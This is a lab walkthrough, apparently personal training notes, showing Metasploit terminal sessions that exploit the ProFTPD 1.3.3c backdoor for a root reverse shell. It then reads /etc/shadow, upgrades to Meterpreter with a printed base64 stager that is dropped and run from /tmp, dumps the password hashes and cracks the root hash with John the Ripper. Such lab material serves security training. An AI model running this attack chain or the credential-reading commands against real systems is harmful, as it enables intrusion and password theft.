

# Dumping and Cracking Passwords - Linux

<figure><figcaption></figcaption></figure>

```sh
msf5 > setg rhosts 192.8.123.3
rhosts => 192.8.123.3
msf5 > search proftpd

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   3  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   4  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   5  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


msf5 > use 4
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.8.123.2:4444 
[*] 192.8.123.3:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo pFZggu5uylvcmBGJ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "pFZggu5uylvcmBGJ\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.8.123.2:4444 -> 192.8.123.3:55912) at 2024-01-19 13:55:31 +0000

/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/# cat /etc/shadow
cat /etc/shadow
root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
daemon:*:18311:0:99999:7:::
bin:*:18311:0:99999:7:::
sys:*:18311:0:99999:7:::
sync:*:18311:0:99999:7:::
games:*:18311:0:99999:7:::
man:*:18311:0:99999:7:::
lp:*:18311:0:99999:7:::
mail:*:18311:0:99999:7:::
news:*:18311:0:99999:7:::
uucp:*:18311:0:99999:7:::
proxy:*:18311:0:99999:7:::
www-data:*:18311:0:99999:7:::
backup:*:18311:0:99999:7:::
list:*:18311:0:99999:7:::
irc:*:18311:0:99999:7:::
gnats:*:18311:0:99999:7:::
nobody:*:18311:0:99999:7:::
_apt:*:18311:0:99999:7:::
```

```sh
root@victim-1:/# ^Z  
Background session 1? [y/N]  y
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.8.123.2:4433 
[*] Sending stage (980808 bytes) to 192.8.123.3
[*] Meterpreter session 2 opened (192.8.123.2:4433 -> 192.8.123.3:44794) at 2024-01-19 13:57:45 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towAh7AmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/JUKNb.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/xgPmq' < '/tmp/JUKNb.b64' ; chmod +x '/tmp/xgPmq' ; '/tmp/xgPmq' & sleep 2 ; rm -f '/tmp/xgPmq' ; rm -f '/tmp/JUKNb.b64'"
[-] Output: "[1] 39"
```

```sh
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank    Check  Description
   -   ----                                                  ---------------  ----    -----  -----------
   0   auxiliary/analyze/crack_databases                                      normal  No     Password Cracker: Databases
   1   auxiliary/scanner/mssql/mssql_hashdump                                 normal  No     MSSQL Password Hashdump
   2   auxiliary/scanner/mysql/mysql_authbypass_hashdump     2012-06-09       normal  No     MySQL Authentication Bypass Password Dump
   3   auxiliary/scanner/mysql/mysql_hashdump                                 normal  No     MYSQL Password Hashdump
   4   auxiliary/scanner/oracle/oracle_hashdump                               normal  No     Oracle Password Hashdump
   5   auxiliary/scanner/postgres/postgres_hashdump                           normal  No     Postgres Password Hashdump
   6   auxiliary/scanner/smb/impacket/secretsdump                             normal  No     DCOM Exec
   7   post/aix/hashdump                                                      normal  No     AIX Gather Dump Password Hashes
   8   post/android/gather/hashdump                                           normal  No     Android Gather Dump Password Hashes for Android Systems
   9   post/bsd/gather/hashdump                                               normal  No     BSD Dump Password Hashes
   10  post/linux/gather/hashdump                                             normal  No     Linux Gather Dump Password Hashes for Linux Systems
   11  post/osx/gather/hashdump                                               normal  No     OS X Gather Mac OS X Password Hash Collector
   12  post/solaris/gather/hashdump                                           normal  No     Solaris Gather Dump Password Hashes for Solaris Systems
   13  post/windows/gather/credentials/domain_hashdump                        normal  No     Windows Domain Controller Hashdump
   14  post/windows/gather/credentials/mcafee_vse_hashdump                    normal  No     McAfee Virus Scan Enterprise Password Hashes Dump
   15  post/windows/gather/credentials/mssql_local_hashdump                   normal  No     Windows Gather Local SQL Server Hash Dump
   16  post/windows/gather/hashdump                                           normal  No     Windows Gather Local User Account Password Hashes (Registry)
   17  post/windows/gather/smart_hashdump                                     normal  No     Windows Gather Local and Domain Controller Account Password Hashes


msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use 10
msf5 post(linux/gather/hashdump) > set session 2
session => 2
msf5 post(linux/gather/hashdump) > run

[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20240119135843_default_192.8.123.3_linux.hashes_762375.txt
[*] Post module execution completed
```

<pre class="language-sh"><code class="lang-sh">msf5 post(linux/gather/hashdump) > exit -y
root@attackdefense:~# gzip -d /usr/share/wordlists/rockyou.txt.gz 
root@attackdefense:~# john --format=sha512crypt /root/.msf4/loot/20240119135843_default_192.8.123.3_linux.hashes_762375.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 48 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<strong>password         (root)
</strong>1g 0:00:00:05 DONE (2024-01-19 14:02) 0.1763g/s 1083p/s 1083c/s 1083C/s 123456..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed
</code></pre>
